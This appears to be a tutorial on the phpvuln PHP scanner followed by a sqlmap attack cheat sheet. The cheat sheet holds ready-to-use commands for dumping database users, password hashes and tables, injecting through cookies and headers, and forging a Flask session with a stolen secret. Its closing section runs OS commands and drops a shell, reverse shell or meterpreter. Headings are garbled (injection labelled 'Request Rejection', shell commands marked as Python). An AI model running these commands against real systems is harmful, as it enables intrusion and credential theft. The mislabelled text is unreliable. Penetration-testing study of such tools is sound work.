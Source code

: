 # phpvuln sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security engineer at HackerOne. I'm going to discuss how to find vulnerabilities in PHP code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application.

<b>Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command: </b>

```python
apt install python3
```

<b> Installing the PHP  </b>

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```

<b> Getting the vulnerability list </b>
<br>
Here you can see the list of many types of vulnerabilities that you can identify in php code with the help of this tool.
```python
python3 phpvuln.py --list-vuln
```

<b> Find Vulnerability </b>
<br>
As you may have come to know about this tool why developers have created this tool. All we have to do is give the path of the php project that we want to investigate and it will identify all the vulnerability by itself.

```python
! python3 phpvuln.py -p < your path of php code >
```
```python
python3 phpvuln.py -p .../.../Desktop/bWAPP/
```

Also you can use the following command if you want to find a specific vulnerability in PHP code.

```python
! python3 phpvuln.py -p < your path of php code > -v < vuln name >
```

```python
python3 phpvuln.py -p /.../.../Desktop/bWAPP/ -v rfi
```
Thus, you can use all the features of this tool one by one and benefit by finding significant vulnerabilities in php code.


<b> For the sqlmaps, we discuss on how php vuln works in the system using linux. Now we need to know how sqlmaps work</b>

Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:

<b>Retrieve Information</b>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:
```python
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

<b> Implementing Shell Unix in Linux </b>
```python
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
